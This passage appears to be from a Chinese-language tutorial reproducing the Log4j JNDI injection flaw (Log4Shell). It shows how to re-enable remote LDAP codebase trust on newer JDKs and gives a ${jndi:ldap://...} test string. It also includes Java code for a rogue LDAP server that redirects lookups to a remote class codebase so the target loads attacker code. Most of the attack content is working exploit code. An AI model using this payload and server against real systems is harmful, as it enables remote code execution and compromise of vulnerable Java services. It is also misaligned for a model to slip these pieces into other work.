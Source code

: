 在 Oracle JDK 11.0.1, 8u191, 7u201, and 6u211及以后的版本，默认不允许LDAP从远程地址加载Reference工厂类。
启动时需要添加`System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");`

## 测试

打印日志，比如`log.error("${jndi:ldap://127.0.0.1:10389}");`(根据日志级别而定)

可以看到打印的日志有类似内容:`com.sun.jndi.ldap.LdapCtx@5fa7e7ff`，ldap 服务器上也能看到请求记录(需要更改打印日志级别)；

Ladp 返回class, 这个class 不能有package name

Ldap sdk(简单搭建一个服务)
<https://ldap.com/unboundid-ldap-sdk-for-java/>

```java
    InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
    config.setListenerConfigs(new InMemoryListenerConfig(
        "listen", //$NON-NLS-1$
        InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
        port,
        ServerSocketFactory.getDefault(),
        SocketFactory.getDefault(),
        (SSLSocketFactory) SSLSocketFactory.getDefault()));

    config.addInMemoryOperationInterceptor(new OperationInterceptor(this.codebase_url));
    InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
    ds.startListening();
private static class OperationInterceptor extends InMemoryOperationInterceptor {
 @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
            String cbstring = this.codebase.toString();
            String javaFactory = Mapper.references.get(base);

            if (javaFactory != null){
                URL turl = new URL(cbstring + javaFactory.concat(".class"));
                System.out.println(getLocalTime() + " [LDAPSERVER] >> Send LDAP reference result for " + base + " redirecting to " + turl);
                e.addAttribute("javaClassName", "foo");
                e.addAttribute("javaCodeBase", cbstring);
                e.addAttribute("objectClass", "javaNamingReference");  
                e.addAttribute("javaFactory", javaFactory);
                result.sendSearchEntry(e);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            }else {
                System.out.println(getLocalTime() + " [LDAPSERVER] >> Reference that matches the name(" + base + ") is not found.");
            }
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }
}
```
